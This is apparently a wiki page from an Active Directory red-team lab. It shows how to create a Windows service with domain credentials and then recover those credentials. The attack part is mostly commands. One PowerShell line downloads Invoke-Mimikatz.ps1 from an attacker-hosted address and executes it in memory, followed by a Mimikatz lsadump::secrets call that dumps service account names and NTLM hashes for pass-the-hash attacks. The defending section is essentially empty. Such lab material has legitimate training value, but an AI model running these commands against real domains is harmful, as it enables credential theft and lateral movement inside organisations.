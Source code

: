 ```yaml
---
description: >-
  It's possible to create custom services, which will run with a local or a
  domain account. When you have high enough privilege's, it's possible to
  retrieve the credentials of the service.
---
```


# Services

## Configuring

For this example we have created the user _noah_ onto the Domain Controller. The following command should be executed:

```
net user Noah haoNHasAStrongPassword321!@ /domain /add
```

1. Login with an `Administrator` account into the machine, where you want to configure the service. In our example we will configure this within `WS01`.
2. Open up _cmd.exe_
3. We're going to execute the command:

```
sc create <name> binPath="C:\nonexisting.exe" obj="<username>@<domain>" password="<plaintext password or NTLM hash of the user>"
```

The password of the service can be fake. So to make our attack a bit more fun, we're going to place the NTLM hash of the user `Noah`. This will enable us to make it a 'pass-the-hash' attack.

In our example we're going to execute the following command:

```
 sc create TryToReadThePassword binPath="C:\Program Files\OfThisService.exe" obj="Noah@Amsterdam" password="02671733e400aa35ad23828f5df3b676"
```

When executed, we will get a success message.

## Attacking

### How it works



### Tools

* [MimiKatz ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### Executing the attack

For this attack we need a high priviliged user.

1. Start PowerShell as an Administrator.
2. Execute MimiKatz. This can be done in many ways. In our example we will be hosting Invoke-mimikatz.ps1 on our attacker machine. Download mimikatz into memory using the following command and then execute MimiKatz:

```
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets" "exit"'
```

The result is that our freshly created service is shown, including with username and NTLM Hash:

![](<../../../.gitbook/assets/image (33).png>)

With the hash we can try to execute pass-the-hash attacks.

## Defending

### Recommendations

* a

### Detection



## References
